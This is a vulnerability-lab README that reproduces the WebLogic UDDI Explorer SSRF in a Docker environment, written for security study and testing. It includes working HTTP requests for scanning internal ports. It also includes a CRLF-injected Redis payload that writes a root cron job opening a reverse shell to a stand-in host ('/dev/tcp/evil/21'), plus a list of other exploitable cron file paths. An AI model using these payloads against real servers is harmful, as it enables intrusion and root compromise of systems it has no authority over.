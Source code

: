 # Weblogic UDDI Explorer Server-Side Request Forgery (SSRF)

[中文版本(Chinese version)](README.zh-cn.md)

Oracle WebLogic Server is a Java-based enterprise application server. A Server-Side Request Forgery (SSRF) vulnerability exists in WebLogic's UDDI Explorer application, which allows attackers to send arbitrary HTTP requests through the server, potentially leading to internal network scanning or attacks against vulnerable internal services like Redis.

References:

- <https://github.com/vulhub/vulhub/tree/master/weblogic/ssrf>
- <https://foxglovesecurity.com/2015/11/06/what-is-server-side-request-forgery-ssrf/>
- <https://www.blackhat.com/docs/us-17/thursday/us-17-Tsai-A-New-Era-Of-SSRF-Exploiting-URL-Parser-In-Trending-Programming-Languages.pdf>

## Environment Setup

Execute the following command to start a WebLogic server:

```
docker compose up -d
```

After the server starts, visit `http://your-ip:7001/uddiexplorer/` to access the UDDI Explorer application. No authentication is required.

## Vulnerability Reproduction

The SSRF vulnerability exists in the SearchPublicRegistries.jsp page. Using Burp Suite, we can send a request to `http://your-ip:7001/uddiexplorer/SearchPublicRegistries.jsp` to test this vulnerability.

First, we can try accessing an internal service like `http://127.0.0.1:7001`:

```
GET /uddiexplorer/SearchPublicRegistries.jsp?rdoSearch=name&txtSearchname=sdf&txtSearchkey=&txtSearchfor=&selfor=Business+location&btnSubmit=Search&operator=http://127.0.0.1:7001 HTTP/1.1
Host: localhost
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close

```

When accessing an available port, you will receive an error response with a status code. For non-HTTP protocols, you'll get a "did not have a valid SOAP content-type" error.

![](1.png)

When accessing a non-existent port, the response will be "could not connect over HTTP to server".

![](2.png)

By analyzing these different error messages, we can effectively scan the internal network.

### Redis Shell Exploitation

A notable characteristic of WebLogic's SSRF vulnerability is that despite being a GET request, we can inject newline characters using `%0a%0d`. Since services like Redis use newlines to separate commands, we can leverage this to attack internal Redis servers.

First, we scan the internal network for Redis servers (Docker networks typically use 172.* subnets) and find that `172.18.0.2:6379` is accessible:

![](3.png)

We can then send three Redis commands to write a shell script into `/etc/crontab`:

```
set 1 "\n\n\n\n0-59 0-23 1-31 1-12 0-6 root bash -c 'sh -i >& /dev/tcp/evil/21 0>&1'\n\n\n\n"
config set dir /etc/
config set dbfilename crontab
save
```

URL encode these commands:

```
set%201%20%22%5Cn%5Cn%5Cn%5Cn0-59%200-23%201-31%201-12%200-6%20root%20bash%20-c%20'sh%20-i%20%3E%26%20%2Fdev%2Ftcp%2Fevil%2F21%200%3E%261'%5Cn%5Cn%5Cn%5Cn%22%0D%0Aconfig%20set%20dir%20%2Fetc%2F%0D%0Aconfig%20set%20dbfilename%20crontab%0D%0Asave
```

Send the encoded payload through the SSRF vulnerability:

```
GET /uddiexplorer/SearchPublicRegistries.jsp?rdoSearch=name&txtSearchname=sdf&txtSearchkey=&txtSearchfor=&selfor=Business+location&btnSubmit=Search&operator=http://172.19.0.2:6379/test%0D%0A%0D%0Aset%201%20%22%5Cn%5Cn%5Cn%5Cn0-59%200-23%201-31%201-12%200-6%20root%20bash%20-c%20%27sh%20-i%20%3E%26%20%2Fdev%2Ftcp%2Fevil%2F21%200%3E%261%27%5Cn%5Cn%5Cn%5Cn%22%0D%0Aconfig%20set%20dir%20%2Fetc%2F%0D%0Aconfig%20set%20dbfilename%20crontab%0D%0Asave%0D%0A%0D%0Aaaa HTTP/1.1
Host: localhost
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close

```

![](4.png)

Successfully obtaining a reverse shell:

![](5.png)

Note that there are several locations where cron jobs can be exploited:

- `/etc/crontab` (default system crontab)
- `/etc/cron.d/*` (system cron job directory)
- `/var/spool/cron/root` (CentOS root user cron file)
- `/var/spool/cron/crontabs/root` (Debian root user cron file)
